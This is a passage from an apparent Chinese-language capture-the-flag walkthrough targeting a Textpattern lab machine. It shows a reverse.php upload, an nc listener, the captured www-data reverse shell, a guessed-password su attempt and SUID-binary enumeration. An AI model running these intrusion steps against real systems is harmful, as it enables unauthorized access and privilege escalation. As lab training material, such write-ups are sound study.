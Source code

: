 上传一个reverse.php上去就好了

kali监听

```
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888           
listening on [any] 8888 ...
```

![image-20250715212430424](https://7r1umphk.github.io/image/20250715212430750.webp)

去http://textpattern.dsz/files/

![image-20250715212454872](https://7r1umphk.github.io/image/20250715212455203.webp)

点击，转圈圈

回去看监听

```
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888           
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.185] 38534
Linux 5ud0 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64 GNU/Linux
 09:24:54 up 14 min,  0 users,  load average: 0.00, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (500): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5ud0:/$ ls /home
ls /home
todd
www-data@5ud0:/$ su todd
su todd
Password: todd
su: Authentication failure
www-data@5ud0:/$ ls -la /opt
ls -la /opt
total 8
drwxr-xr-x  2 root root 4096 Jul  9 21:31 .
drwxr-xr-x 18 root root 4096 Jul 10 04:36 ..
www-data@5ud0:/$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/passwd
/usr/local/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```
